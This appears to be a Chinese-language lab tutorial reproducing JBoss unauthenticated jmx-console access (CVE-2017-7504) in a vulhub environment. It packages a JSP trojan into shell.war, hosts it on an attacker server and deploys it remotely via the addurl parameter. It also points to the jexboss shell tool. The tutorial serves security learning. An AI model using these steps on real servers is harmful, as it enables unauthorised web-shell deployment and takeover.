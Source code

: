 JBoss 未授权访问漏洞
-------------

### 漏洞简介

jBoss 是一个基于 J2EE 的开发源代码的应用服务器。JBoss 代码遵循 LGPL 许可，可以在任何商业应用中免费使用。JBoss 是一个管理 EJB 的容器和服务器，支持 EJB1.1、EJB 2.0 和 EJB3 的规范。但 JBoss 核心服务不包括支持 servlet/JSP 的 WEB 容器，一般与 Tomcat 或 Jetty 绑定使用。

默认端口: 8080,9990

默认情况下访问 http://ip:8080/jmx-console 就可以浏览 jboss 的部署管理的信息，不需要输入用户名和密码，可以直接部署上传木马有安全隐患。

### 漏洞复现

#### 环境搭建

这里使用 vulhub 中 CVE-2017-7504 的漏洞环境。

Vulhub 的漏洞环境搭建教程参考：https://www.fujieace.com/penetration-test/vulhub.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktus6FXMGyiaa7kI4LlqIeyVb4xDLqBss0VIlSyiapbicIOAXc8NHOvibxRibg/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4kturGakQhfqRjhtk4LkcO6IGGuImdVuWznCeicZLtOF9kQfgkTGvZFgcEw/640?wx_fmt=jpeg)

#### 漏洞检测

先用 nmap 扫描查看端口开放情况看是否开放 JBOSS 端口。再使用漏洞测试工具测试 jmx 组件存在情况通过访问 http://ip:jboss 端口 / 看是否能进入 jmx-console 和 web-console 。

检测工具：jexboss（https://github.com/joaomatosf/jexboss）一个使用 Python 编写的 Jboss 漏洞检测利用工具，通过它可以检测并利用 web-console，jmx-console，JMXInvokerServlet 这三个漏洞，并且可以获得一个 shell。

#### 漏洞利用

点击进入控制页

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuibYmhookucVD7VnjFOnHHqqCKU1WBycgPKdNfLu7Ch77jjicfVhBgQfg/640?wx_fmt=jpeg)

点击 jboss.deployment 进入应用部署页面

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuEH7K8WyNDg4Hul4xavBZHzcVsWic4RyKwpPbXN8vDullPtrJVg7cJjg/640?wx_fmt=jpeg)

将 jsp 马打包成 war 包 jar -cvf shell.war api\_all\_jdk.jsp

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktutibjBaLlfY24Yc4vmY4NKQTAu9iaZhUaaM6Q5bDncur0ydrkNicoLjEHw/640?wx_fmt=jpeg)

将 war 包放到 web 服务器上

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktudooBmzlmdVicMsialwHZibucnUzW8iadFW9pdiaLSTNV0KUSfXmiasJWyCEQ/640?wx_fmt=jpeg)

通过 addurl 参数进行木马的远程部署

http://192.168.168.128/shell.war

![](https://mmbiz.qpic.cn/mmbiz_jpg/qq5rfBadR389QWG3AUED8BoNeCicn4ktuI5g8DLRGxBnsD5qNodVICz17YHkOBzlGFVrUOKryQKJc6BxSxSvkoQ/640?wx_fmt=jpeg)
